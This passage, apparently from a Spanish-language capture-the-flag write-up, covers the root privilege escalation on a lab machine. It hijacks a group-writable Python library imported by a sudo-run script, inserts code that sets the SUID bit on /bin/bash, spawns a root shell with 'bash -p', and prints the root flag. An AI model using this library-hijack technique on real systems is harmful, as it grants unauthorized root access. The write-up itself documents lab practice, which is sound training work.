 Vemos que se esta importando una libreria bastante rara en el script que se llama `pytest` por lo que vamos a buscarla a ver que hace.

```shell
find / -name "pytest.py" 2>/dev/null
```

Info:

```
/usr/lib/python3.12/pytest.py
```

Si listamos para ver los permisos que tiene dicha libreria...

```shell
ls -la /usr/lib/python3.12/pytest.py
```

Info:

```
-rwxrwxr-x 1 root admin 1 Jan 10 17:08 /usr/lib/python3.12/pytest.py
```

Vemos que somos del grupo del script, por lo que podremos escribirlo, haciendo lo siguiente.

```shell
nano /usr/lib/python3.12/pytest.py

#Dentro del nano
#/bin/python3

import os

os.system("chmod u+s /bin/bash")
print("Se ha establecido el bit SUID en /bin/bash.")
```

Esto lo que hara sera hacer un `chmod u+s /bin/bash`, por lo que lo guardamos y ejecutamos lo siguiente para que se ejecute la libreria y se nos ponga con permisos `SUID` la `bash`.

```shell
sudo python3 /opt/script.py
```

Y tendremos que darle a `Ctrl+C` para que pare la `"animacion"` y si comprobamos la `bash`.

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```

Vemos que tiene permisos `SUID` por lo que haremos lo siguiente:

```shell
bash -p
```

Y con esto ya seremos `root`, por lo que leeremos la flag de `root`.

> root.txt

```
8d4efee97352c73a8b059a94fe69dcd1
```
